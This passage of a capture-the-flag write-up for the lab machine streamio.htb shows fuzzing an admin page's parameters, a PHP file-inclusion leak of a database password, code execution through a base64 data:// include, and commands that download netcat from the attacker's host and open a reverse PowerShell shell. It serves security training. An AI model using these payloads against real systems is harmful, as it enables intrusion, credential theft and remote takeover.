 But just **yoshihide** user will work in the login. This user can access the **/admin** page. We found there a bunch of url parameters. We can fuzz by them:

```console
zero@pio$ ffuf -c -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u 'https://streamio.htb/admin/?FUZZ=' -H 'Cookie: PHPSESSID=3189vhj6ai9n2d28ck6ndh4j2d' -fs 1678

	debug                   [Status: 200, Size: 1712, Words: 90, Lines: 50, Duration: 55ms]
	movie                   [Status: 200, Size: 320235, Words: 15986, Lines: 10791, Duration: 70ms]
	staff                   [Status: 200, Size: 12484, Words: 1784, Lines: 399, Duration: 63ms]
	user                    [Status: 200, Size: 3557, Words: 389, Lines: 111, Duration: 62ms]
```

The **debug** parameter doesn’t appear in the admin page but it is a valid one. We can start fuzzing by files, because it is a debugger:

```console
zero@pio$ ffuf -c -w /usr/share/seclists/Discovery/Web-Content/SVNDigger/cat/Language/php.txt -u 'https://streamio.htb/admin/?debug=FUZZ' -H 'Cookie: PHPSESSID=3189vhj6ai9n2d28ck6ndh4j2d' -fs 1712

	index.php               [Status: 200, Size: 1693, Words: 93, Lines: 47, Duration: 61ms]
	master.php              [Status: 200, Size: 344209, Words: 17997, Lines: 11207, Duration: 110ms]
```

We see that we can get those file searching them.

```console
zero@pio$ curl -s -k "https://streamio.htb/admin/?debug=php://filter/convert.base64-encode/resource=index.php" -H 'Cookie: PHPSESSID=3189vhj6ai9n2d28ck6ndh4j2d' | grep developers |  awk '{print $6}' | base64 -d

	$connection = array("Database"=>"STREAMIO", "UID" => "db_admin", "PWD" => 'B1@hx31234567890');
	$handle = sqlsrv_connect('(local)',$connection);
```

The **master.php** file includes other files, so we can pass a reverse shell. Encrypt it in base64 and send it as:

```console
zero@pio$ curl -s -k --data-binary "include=data://text/plain;base64,c3lzdGVtKCRfR0VUWydjbWQnXSk7" -H 'Cookie: PHPSESSID=3189vhj6ai9n2d28ck6ndh4j2d' "https://streamio.htb/admin/?debug=master.php&cmd=whoami"

	</form>
	streamio\yoshihide
	                </div>
	        </center>
	</body>
```

Upload netcat and start a reverse shell:

```console
zero@pio$ python3 -m http.server
```

```console
zero@pio$ curl -s -k --data-binary "include=data://text/plain;base64,c3lzdGVtKCRfR0VUWydjbWQnXSk7" -H "Cookie: PHPSESSID=3189vhj6ai9n2d28ck6ndh4j2d" "https://streamio.htb/admin/?debug=master.php&cmd=curl+10.10.16.44/nc.exe+-o+C:\\ProgramData\\netcat.exe" &>/dev/null
zero@pio$ curl -s -k --data-binary "include=data://text/plain;base64,c3lzdGVtKCRfR0VUWydjbWQnXSk7" -H "Cookie: PHPSESSID=3189vhj6ai9n2d28ck6ndh4j2d" "https://streamio.htb/admin/?debug=master.php&cmd=cmd+/c+C:\\ProgramData\\netcat.exe+-e+powershell+10.10.16.44+443" &>/dev/null
```
